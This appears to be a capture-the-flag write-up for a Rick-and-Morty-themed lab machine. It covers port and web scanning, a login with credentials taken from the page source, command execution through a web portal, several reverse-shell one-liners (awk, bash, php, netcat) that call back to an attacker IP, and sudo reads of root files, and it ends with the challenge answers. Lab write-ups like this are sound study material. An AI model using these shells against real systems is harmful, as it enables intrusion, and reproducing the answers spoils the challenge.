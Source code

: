``IP Address = 10.10.12.75``

# Nmap Scan Result

## Open Ports:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
### Operating System: Ubuntu


Command: `nmap -sTV -O -sC {IP Address}`


### Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.12.75
+ Target Hostname:    10.10.12.75
+ Target Port:        80
+ Start Time:         2021-05-02 01:37:19 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-05-02 02:31:46 (GMT-4) (3267 seconds)
------------------------------------------------------------------
```

Command Syntax: `nikto -host http://{IP Address}`


## Target WebServer Enumeration

Main page of the website have comment on its source code that is 

Username: `R1ckRul3s`

that looks usefull. target website page or subdirectry robots.txt have rendom string that is`Wubbalubbadubdub`This is Suspicious  

## Directry Scanning 

**/assets**
this have some Common Thing use in website nothing more
**robots.txt**

As nikto finds `login.php` so go for it.They required username and password we found username and some rendom string try for it 

It works and they provide some command execution portal and this is vulnerable and good for us

Use ls and there is first ingreden `Sup3rS3cretPickl3Ingred.txt` use cat to view the content of the file. looks they use some filters for command so how we see the content of the file. There are some other command also like `more`,`head`,`tail`,`less` use it find which will works

There is not need for getting rev-shell but i can try to get reverse shell for furthure Post Exploitation

## Getting reverse shell 

start a lisener on your machine with netcat and pawncat which you use

unfortunativly i can't get the reverse shell and 

but by checking the source code of the portal.php file i found some base64 encode string 

by decoding it this is "rabithole"

After try alot of reverse shell code i get connetion with this reverse shell code

``awk 'BEGIN {s = "/inet/tcp/0/10.8.186.33/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null``

now we can try to find other ingredent and they are in /home/rick directry its name is second ingredients
**Note: they have spaces in there name so use the quotes in the command for see this file like the following command**

``less /home/rick/"second ingredients"``

This give me reveseshell but this only replicat the webshell in your terminal this is not normal shell and there you use all commands that are terminate like cat,more,head. i try to gain proper reverse shell which the following code but i cant. php and netcat number 4 shell work but that are not that usefull.

```
1) bash -i >& /dev/tcp/10.8.186.33/5555 0>&1

2) php -r '$sock=fsockopen("10.8.186.33",5555);exec("/bin/sh -i <&3 >&3 2>&3");'

3) nc -e /bin/sh 10.8.186.33 5555

4) rm -f /tmp/p; mknod /tmp/p p && nc 10.8.186.33 5555 0/tmp/p
```

So, now i using the web shell for finding the ingredent so first i use the following command for suid 

``fing / -perm /4000 2>/dev/null``

They show me the following result 
```
/snap/core/5742/bin/mount
/snap/core/5742/bin/ping
/snap/core/5742/bin/ping6
/snap/core/5742/bin/su
/snap/core/5742/bin/umount
/snap/core/5742/usr/bin/chfn
/snap/core/5742/usr/bin/chsh
/snap/core/5742/usr/bin/gpasswd
/snap/core/5742/usr/bin/newgrp
/snap/core/5742/usr/bin/passwd
/snap/core/5742/usr/bin/sudo
/snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/5742/usr/lib/openssh/ssh-keysign
/snap/core/5742/usr/lib/snapd/snap-confine
/snap/core/5742/usr/sbin/pppd
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
/snap/core/6350/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ntfs-3g
/bin/ping
/bin/su
/bin/ping6
/bin/mount
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

There i see sudo have suid bit on by using this i can see the root folder igredent. first see what is the name of the file of third igredent using 

``/usr/bin/sudo ls -al /root``

Using this i come to know the file name is `3rd.txt` so just using the following command and i see the ingredent

`/usr/bin/sudo less /root/3rd.txt`




Here we find all the ingredent 
```
Q1:What is the first ingredient Rick needs?
A: mr. meeseek hair

Q2:Whats the second ingredient Rick needs?
A:1 jerry tear

Q4:Whats the final ingredient Rick needs?
A:fleeb juice
```
